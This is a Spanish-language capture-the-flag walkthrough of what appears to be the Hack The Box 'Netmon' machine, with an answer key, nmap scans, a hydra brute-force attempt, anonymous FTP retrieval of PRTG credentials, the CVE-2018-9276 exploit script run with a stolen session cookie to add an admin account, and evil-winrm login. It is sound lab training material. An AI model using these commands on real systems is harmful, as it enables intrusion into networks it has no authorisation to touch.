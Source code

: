1)¿Cuál es el nombre de la aplicación que se ejecuta en el puerto 80? Dadas las tres palabras del logotipo.
	PRTG Network Monitor

2)¿Qué servicio se ejecuta en el puerto TCP 21?
	ftp

*La pregunta anterior es la flag de user.txt*
4)¿Cuál es la ruta completa de la carpeta donde PRTG Network Monitor guarda sus archivos de configuración por defecto?
	`C:\ProgramData\Paessler\PRTG Network Monitor`

5)¿Cuál es el nombre del archivo de configuración de copia de seguridad?
	PRTG Configuration.old.bak

6)¿Cuál era la contraseña del usuario prtgadmin según ese archivo?
	PrTg@dmin2018

7)¿Cuál es ahora la contraseña del usuario prtgadmin en el sitio web?
	PrTg@dmin2019

8)¿Qué versión de PRTG está instalada?
	18.1.37.13946

9)¿Con qué usuario se ejecuta este software por defecto? No incluya nada antes de un \
	system
	tasklist /v | findstr PRTG                        [[findstr]] [[tasklist]]
	![[Netmon17.png]]




--------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.10.10.152
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.152 -oG allPorts
extractPorts allPorts
nmap -sCV -p21,80,135,139,445,5985,47001,49664,49665,49666,49667,49668,49669 10.10.10.152 -oN target
```

![[Netmon1.png]]
![[Netmon2.png]]
![[Netmon3.png]]
![[Netmon4.png]]
![[Netmon5.png]]
*TTL:* Maquina windows
*Puertos Relevantes:*
	`21` [[ftp]]
	`80` HTTP
	`445` [[smb]]
	`47001 o 5985` Alguno de estos dos puertos puede llegar  tener un [[evil-winrm]]
*Datos importantes*
En el servicio de [[ftp]] nos podemos conectar como el usuario anonymous. Y en [[smb]] con el usuario guest


----
# [[Enumeracion con pequeño script de NMAP y Whatweb-wappalyzer]]

```shell
whatweb http://10.10.10.152
```

![[Netmon6.png]]

No nos da ningun dato relevante, tambien intente enumerar directorios con [[FFUF]] y no me dio ningun resultado

---------
# [[Hydra]]

Vamos a intentar sacar por fuerza bruta las credenciales
![[Netmon14.png]]

```
hydra -L /usr/share/SecLists/Usernames/top-usernames-shortlist.txt -P /usr/share/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt 10.10.10.152 http-post-form '/public/checklogin.htm:username=^USER^&password=^PASS^:F=Your login has failed. Please try again !' -t 64
```

![[Netmon10.png]]

![[Netmon9.png]]
Nos tira muchos falsos positivos, por que tarda en la respuesta, así que no podemos sacar credenciales con fuerza bruta

-------
# Intrusion por [[ftp]] user anonymnous

```shell
ftp 10.10.10.152 -p 21
```

![[Netmon7.png]]
![[Netmon8.png]]
Y sacamos la primera flag en el directorio */users/public/desktop/user.txt*

Ahora vamos al directorio por defecto donde se guardan los backups de PRTG Network Monitor
*/ProgramData/paessler/PRTG Network Monitor*

![[Netmon12.png]]
Vemos al archivo de bakcup y lo descargamos `get PRTG Configuration.old.ba`

Lo abrimos en nuestra maquina, tiene un contenido muy extenso, pero la informacion relevante es esta en las lineas 141 y 142. Nos otorga las credenciales *prtgadmin:PrTg@dmin2018*

![[Netmon13.png]]


------

# [[CVE-2018-9276]]

Buscamos vulnerabilidades con [[searchsploit]] con el comando ``searchsploit prtg``
![[Netmon19.png]]
Descargamos la siguiente ``searchsploit  -m windows/webapps/46527.sh``
Le damos permiso de ejecucion con `chmod +x 46527.sh` y luego lo ejecutamos

La cookie de sesion la ponemos con el parametro *-c* y la sacamos de la pagina donde ya estamos logeado con las credenciales que sacamos previamente en `http://10.10.10.152/welcome.htm`, pero cambiando la contraseña a *PrTg@dmin2019*
![[Netmon20.png]]
```
./46527.sh -u http://10.10.10.152 -c "OCTOPUS1813713946=e0FDMjQ3RTg0LTc0MzEtNDUyNy1BNzU2LTI0MTZEM0ExM0YwMX0%3D"

```
![[Netmon15.png]]
Este exploit lo que hace es crear un nuevo usuario en el windows, con permisos de administrador, y las credenciales van a ser pentest:P3nT3st!

## Conexion a la maquina con [[evil-winrm]]
Nos conectamos con esta herramienta por que habiamos visto en el escaneo de nmap que estaba activo el servicio por el puerto 47001
Y ya podemos catear la flag
```
evil-winrm -i 10.10.10.152 -u pentest -p 'P3nT3st!'
```

![[Netmon16.png]]

----------
# Notas
Si una contraseña tiene un año antiguo, probar cambiar la contraseña al año actual, por ejemplo. Si la contraseña dice admin2018, y estamos en el 2019, probar admin2019

---------
# Creditos
[Proyecto github A1vinSmith](https://github.com/A1vinSmith/CVE-2018-9276) Me guio un poco en la parte del CVE